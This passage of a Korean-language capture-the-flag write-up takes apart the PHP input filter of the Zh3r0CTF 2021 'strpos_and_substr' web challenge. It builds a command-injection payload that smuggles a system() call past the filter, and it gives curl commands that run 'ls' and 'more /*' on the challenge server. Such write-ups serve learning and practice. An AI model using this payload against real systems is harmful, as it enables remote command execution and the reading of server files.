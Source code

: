                 - `/[A-Za-z0-9_]/i`

                    ![image_(1).png](\post-images\Zh3r0CTF\WEB\2021\strpos_and_substr\image_(1).png)

                - `substr($a,2+strpos(substr($a,4,strlen($a)),"("),2)`
                    - `substr($a,2+strpos(substr($a,4,strlen($a)),"("),2)`

                        `2+strpos(substr($a,4,strlen($a))` 의 반환값 자릿수 이후의 문자열에서 2번째 자릿수 까지 가져옵니다.

                        - `2+strpos(substr($a,4,strlen($a)),"(")`

                            $a변수의 4번째 자릿수 이후의 문자열에서 ( 문자열의 자릿수에서 2를 더합니다.

            - `preg_match("/[A-Za-z0-9_']/i",substr(substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12),strpos(substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12),")")-1,1))`
                - `substr(substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12),strpos(substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12),")")-1,1)`

                    const X = `substr($a,4,strlen($a))`

                    간단하게 표시에서 X를 위 함수의 결과라면 `substr(X, strpos(X,"("),12)` 해당 코드와 같습니다.

                    시도하기 위한 페이로드를 넣으면 X의 결과는 `tem('ls'),` 문자열이 들어가게 됩니다.

                    - `substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12)`

                        `substr(X, strpos(X,"("),12)` 해당 코드의 반환 값은 X 안에 있는 ) 문자가 있는 자릿수 이후의 문자열을 최대 12자리 만큼 반환 합니다.

                    - `strpos(substr(substr($a,4,strlen($a)),strpos(substr($a,4,strlen($a)),"("),12),")")-1`

                        코드를 이해하기 쉽게 X로 치환한다면

                        `strpos(substr(X,strpos(X,"("),12),")")-1`

                        const Y = `strpos(X,"(")`

                        Y는 X안에 있는 ( 문자 자릿수를 반환하므로 3이 됩니다. 

                        X 문자열을 Y 자릿수 이후 부터 최대 12글자를 반환한 뒤 그 문자열 안에 있는 ) 문자열을 찾은 다음 1을 뺍니다.

    위의 Filter List를 우회하면 최종 페이로드가 만들어지게 됩니다. `',system  ('command' ),'`

    ```bash
    curl "http://web.zh3r0.cf:2222/?user=%27,system%20%20(%27ls%27%20),'"
    curl "http://web.zh3r0.cf:2222/?user=%27,system%20%20(%27more%20/*%27%20),'"
    ```

    ---
